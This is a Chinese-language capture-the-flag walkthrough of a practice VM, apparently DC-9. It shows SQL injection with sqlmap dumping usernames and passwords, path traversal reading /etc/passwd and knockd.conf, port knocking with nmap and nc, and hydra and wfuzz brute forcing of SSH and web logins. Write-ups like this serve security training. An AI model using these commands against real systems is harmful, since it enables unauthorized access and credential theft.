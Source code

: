 
### 1.主机发现

> ip:192.168.92.193

### 2.端口扫描

> ![image-20211020191230451](https://tva1.sinaimg.cn/large/008i3skNly1gvlzmoegoij60p809y3zs02.jpg)
>
> 80端口是打开的

### 3.访问http://192.168.92.193/

> 目录扫描
>
> ```
> nikto -host 192.168.92.193
>
> ```

![image-20211020191313150](https://tva1.sinaimg.cn/large/008i3skNgy1gvlznd3kn1j60pw0fzab502.jpg)

### 4.可以SQL注入

> 判断是否有注入
>
> `' or 1=1 --+`
>
> 使用sqlmap注入
>
> ```
> 1.查看是否有注入
> sqlmap -u http://192.168.92.193/results.php --data 'search=1'  
>
> 2.查看数据库
> sqlmap -u http://192.168.92.193/results.php --data 'search=1'  --dbs
>
> 3.查看数据库的数据表
>  sqlmap -u http://192.168.92.193/results.php --data 'search=1'  -D users --tables
>
> 4.打开表
> sqlmap -u http://192.168.92.193/results.php --data 'search=1'  -D users -T  UserDetails --dump
>
>
>
> ```

#### 数据库

![image-20211020191704860](https://tva1.sinaimg.cn/large/008i3skNgy1gvlzrdf8trj609q04k0ss02.jpg)

#### users数据库

![image-20211020191717942](https://tva1.sinaimg.cn/large/008i3skNgy1gvlzrlijt3j606o05cmx302.jpg)

<img src="https://tva1.sinaimg.cn/large/008i3skNgy1gvlzrumtz3j60vq0ksq7802.jpg" alt="image-20211020191732617"  />

> +----+------------+---------------+---------------------+-----------+-----------+
> | id | lastname   | password      | reg_date            | username  | firstname |
> +----+------------+---------------+---------------------+-----------+-----------+
> | 1  | Moe          | 3kfs86sfd     | 2019-12-29 16:58:26 | marym     | Mary      |
> | 2  | Dooley      | 468sfdfsd2    | 2019-12-29 16:58:26 | julied    | Julie     |
> | 3  | Flintstone | 4sfd87sfd1    | 2019-12-29 16:58:26 | fredf     | Fred      |
> | 4  | Rubble     | RocksOff      | 2019-12-29 16:58:26 | barneyr   | Barney    |
> | 5  | Cat           | TC&TheBoyz    | 2019-12-29 16:58:26 | tomc      | Tom       |
> | 6  | Mouse      | B8m#48sd      | 2019-12-29 16:58:26 | jerrym    | Jerry     |
> | 7  | Flintstone | Pebbles       | 2019-12-29 16:58:26 | wilmaf    | Wilma     |
> | 8  | Rubble     | BamBam01      | 2019-12-29 16:58:26 | bettyr    | Betty     |
> | 9  | Bing       | UrAG0D!       | 2019-12-29 16:58:26 | chandlerb | Chandler  |
> | 10 | Tribbiani  | Passw0rd      | 2019-12-29 16:58:26 | joeyt     | Joey      |
> | 11 | Green      | yN72#dsd      | 2019-12-29 16:58:26 | rachelg   | Rachel    |
> | 12 | Geller     | ILoveRachel   | 2019-12-29 16:58:26 | rossg     | Ross      |
> | 13 | Geller     | 3248dsds7s    | 2019-12-29 16:58:26 | monicag   | Monica    |
> | 14 | Buffay     | smellycats    | 2019-12-29 16:58:26 | phoebeb   | Phoebe    |
> | 15 | McScoots   | YR3BVxxxw87   | 2019-12-29 16:58:26 | scoots    | Scooter   |
> | 16 | Trump      | Ilovepeepee   | 2019-12-29 16:58:26 | janitor   | Donald    |
> | 17 | Morrison   | Hawaii-Five-0 | 2019-12-29 16:58:28 | janitor2  | Scott     |
> +----+------------+---------------+---------------------+-----------+-----------+

### Staff数据库

`sqlmap -u http://192.168.92.193/results.php --data 'search=1'  -D Staff -T Users --dump`

![image-20211020201108174](https://tva1.sinaimg.cn/large/008i3skNly1gvm1bm6s36j60so04gdg902.jpg)

> 密码
>
> 856f5de590ef37314e7c3bdf6f8a66dc
>
> 明文
>
> transorbital1

### 登录用户

![image-20211020210925948](https://tva1.sinaimg.cn/large/008i3skNgy1gvm309tv7ij60gh0b43z502.jpg)

> FUZZ  查找参数
>
> ` wfuzz -b 'PHPSESSID=p4d8u6edvm3mts5m88qsui02qj' -w /usr/share/wfuzz/wordlist/general/common.txt  http://192.168.92.193/manage.php?FUZZ=index.php`
>
> 没有发现响应不同的 可能是后面参数不对
>
> 访问一个 Linux一定存在的文件 ../../../../../etc/passwd
>
> `wfuzz -b 'PHPSESSID=p4d8u6edvm3mts5m88qsui02qj' -w /usr/share/wfuzz/wordlist/general/common.txt --hw 100   http://192.168.92.193/manage.php?FUZZ=../../../../../etc/passwd`
>
> ![image-20211020211536878](https://tva1.sinaimg.cn/large/008i3skNgy1gvm36pobilj60t006kmxj02.jpg)

### 收集隐私

> http://192.168.92.193/manage.php?file=../../../../etc/passwd
>
> ![image-20211020212527307](https://tva1.sinaimg.cn/large/008i3skNly1gvm3gy9ldtj60oo0bdwio02.jpg)
>
> 发现和数据库中的内容相似

## 使用hydra 爆破ssh

> ```
>  hydra -L name_dis -P paswd_dis 192.168.92.193 ssh
>  
>   hydra -L [用户名字典] -P [密码字典] 192.168.92.193 ssh
>  
> ```
>
> ### 无法爆破  22端口为过滤状态
>
> ![image-20211020213532942](https://tva1.sinaimg.cn/large/008i3skNgy1gvm3rgq3j7j60tg0ak0u502.jpg)
>
>> 22端口可能配置了knock d
>>
>> Knockd 配置文件在  	/etc/knockd.conf
>>
>
> #### 用文件包含查看
>
> `http://192.168.92.193/manage.php?file=../../../../etc/knockd.conf`
>
> ```
> File does not exist
> [options] UseSyslog [openSSH] sequence = 7469,8475,9842 seq_timeout = 25 command = /sbin/iptables -I INPUT -s %IP% -p tcp --dport 22 -j ACCEPT tcpflags = syn [closeSSH] sequence = 9842,8475,7469 seq_timeout = 25 command = /sbin/iptables -D INPUT -s %IP% -p tcp --dport 22 -j ACCEPT tcpflags = syn
> ```
>
> ### 用nmap 依次访问 7469,8475,9842
>
> ```
>  nmap -p 7469 192.168.17.193
>  nmap -p 8475 192.168.17.193
>  nmap -p 9842 192.168.17.193
>  
>  
>  
> ```
>
> #### 或者用nc
>
> ```
> for x in 7469 8475 9842 22 ;do nc 192.168.92.193 $x;done
> ```
>
> ##### 成功
>
> ![image-20211020214317128](https://tva1.sinaimg.cn/large/008i3skNgy1gvm3zij4rsj614c0dwdia02.jpg)
>
> #### 再次使用hydra继续爆破ssh
>
> ![image-20211020215120403](https://tva1.sinaimg.cn/large/008i3skNly1gvm47vn8cxj60gg02dt9c02.jpg)
>
>> [22][ssh] host: 192.168.92.193   login: chandlerb   password: UrAG0D!
>> [22][ssh] host: 192.168.92.193   login: joeyt   password: Passw0rd
>> [22][ssh] host: 192.168.92.193   login: janitor   password: Ilovepeepee
>>
>
> ### 收集信息
>
> ```
> ls -a
> sudo -l //查看root权限
> history //查看历史命令
> ```
>
>> 发现janitor 有敏感文件
>>
>
> ![image-20211020220121024](https://tva1.sinaimg.cn/large/008i3skNly1gvm4iawghpj30wa06o3yw.jpg)
>
> ```
> 六个密码
> BamBam01
> Passw0rd
> smellycats
> P0Lic#10-4
> B4-Tru3-001
> 4uGU5T-NiGHts
>
> ```
>
> ##### 用hydra发现其他用户
>
> `hydra -L name_dis -P paswd_dis_2 192.168.92.193 ssh`
>
> ![image-20211020220454499](https://tva1.sinaimg.cn/large/008i3skNgy1gvm4m0ds9jj60tc026t8x02.jpg)
>
> 登录fredf
>
> 发现用root 运行文件
>
> ![image-20211020220716510](https://tva1.sinaimg.cn/large/008i3skNly1gvm4ogt1m0j60k201wt8s02.jpg)

### FUZZ 爆破网站密码

```
使用fuzz爆破密码

 wfuzz  -z file,name_dis -z file,paswd_dis -d "username=FUZZ&password=FUZ2Z"   http://192.168.92.193/manage.php

//wufzz -z file,[字典file] -z file,[字典file] -d"[post请求内容]" http://URL****


```

![image-20211020200115743](https://tva1.sinaimg.cn/large/008i3skNly1gvm11cqognj60zk0hidja02.jpg)
